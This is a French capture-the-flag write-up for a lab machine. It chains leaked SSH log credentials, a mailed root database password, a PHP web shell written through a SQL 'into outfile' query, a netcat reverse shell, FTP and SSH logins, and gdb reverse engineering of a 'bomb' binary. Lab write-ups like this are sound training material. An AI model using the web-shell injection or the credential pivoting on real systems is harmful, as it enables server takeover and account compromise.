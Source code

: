 # WriteUp1

- Je recupere les [logs du ssh](https://192.168.1.96/forum/index.php?id=6) sur le forum 
- `python3 ssh_parse.py`
<pre>
{'test', 'support', 'naos', 'lmezard', 'guest', 'nagios', 'ubnt', 'root', <strong>'!q\\]Ej?*5K5cy*AJ'</strong>, 'ftpuser', 'PlcmSpIp', 'adm', 'user', 'adam', 'nvdb', 'admin', 'pi'}
</pre>
- Je me connecte avec les login `lmezard` et `!q\]Ej?*5K5cy*AJ`
- le mail est disponible dans les parametres de l'user
- Je me connecte au server imap avec `lmezard@borntosec.net` et `!q\]Ej?*5K5cy*AJ` avec evolution ou sur le site [webmail](https://borntosec.net/webmail/)
- Un mail est disponible
<pre>
Hey Laurie,

You cant connect to the databases now. Use <strong>root/Fg-'kKXBj87E:aJ$</strong>

Best regards.
</pre>
- On peut donc se connecter sur le [PhpMyAdmin](https://192.168.1.96/phpmyadmin/).
- En changant le password de admin par celui de lmezard on peut se connecter en tant qu'admin sur le forum
- J'essaye maintenant d'inserer un code php dans le serveur web pour qu'il soit executer par celui ci
- en exutant cett commande sql je peux ecrire dans un fichier
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```
- en testant tout les dossiers du forum un est executable `/var/www/templates_c`
- Je creer donc un fichier avec un reverse shell pour que se soit plus facile et je creer un serveur en local avec netcat
- dans les home un dossier est presant LOOKATME qui contient un dossier password
```
lmezard:G!@M6f4Eatau{sF"
```

# Lmezard FTP
- On peut se connecter au FTP grace a ces login
- On recupere les fichiers
- On remarque que le fichier fun est une archive de plusieurs fichiers donc on le decompresse avec `tar -xf fun`


README
- Complete this little challenge and use the result as password for user 'laurie' to login in ssh


<pre>
cat * | grep -v Haha | grep -v useless | grep -v '^$'
</pre>

- Nous avons crée un script python qui recupere tout les fichiers et les mets dans l'ordre.

```
$> python fun.py "../Ressources/ft_fun" > fun.c
$> gcc fun.c 
$> ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit% 
```

- Avec le contenu du fichier qui se trouvais dans le serveur ftp nous utilison laurie en login et
 en mot de passe. Nous somme maintenant sur la machine connecté en tant que l'utilisateur **laurie** et 
**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en mot de passe. Nous somme maintenant sur la machine connecté en tant que l'utilisateur laurie.

```
ssh laurie@192.168.1.97
```

## Laurie
- Un fichier README se trouve dans le home de laurie: 

```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

- Un fichier bomb est aussi present.

Nous le decompilons avec binary ninja.

### Phase 1:
- Nous pouvons reporté la string depuis binary ninja: `Public speaking is very easy.`

### Phase 2:
- Avec binary ninja on sait que le premier chiffre est 1
- Pour les suivant on utilise gdb
- On break a la comparaison et on print $eax se qui nous donne le nouveau chiffre
<pre>
[alarmv@alarm scripts]$ gdb ./bomb 
gdb-peda$ b *0x8048b7e
Breakpoint 1 at 0x8048b7e
gdb-peda$ r
Starting program: /home/alarm/Boot2Root/scripts/bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 15 15 15 15 15
gdb-peda$ x $eax
0x2:    Cannot access memory at address </pre0x2
</pre>

# Phase 3 
- Dans binary ninja on voit qu'il y a trois argument "%d %c %d"
- Dans le code il suffit de lire les condition
- Le premier chiffre determine les deux argument d'apres dans les case
- Pour 0
```
case 0
		ebx.b = 0x71 // le char
		if (var_8 !=  0x309) // le int de fin
				explode_bomb()
				noreturn;
```
# Phase 4
- LE SCRIPTTTT !
# Phase 5
- On set un breakpoint au call de la fonction strings_not_equal et de regarder la correscpondance de chaque lettre avec l'autre
<pre>
gdb-peda$ disass phase_5
Dump of assembler code for function phase_5:
   0x08048d7a <+78>:    push   eax
   0x08048d7b <+79>:    call   0x8049030 <strings_not_equal>
   0x08048d80 <+84>:    add    esp,0x10
gdb-peda$ b *0x08048d7b
Breakpoint 1 at 0x8048d7b
gdb-peda$ r bite
Starting program: /home/alarm/Boot2Root/scripts/bomb bite
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd590 ("srveaw")
EBX: 0x804b7c0 ("abcdef")
ECX: 0xffffd590 ("srveaw")
[-------------------------------------code-------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048d7b in phase_5 ()
</pre>
- Se qui donne
| g | i | a | n | t | s |
|:-:|:-:|:-:|:-:|:-:|:-:|
| o | p | e | k | m | q |
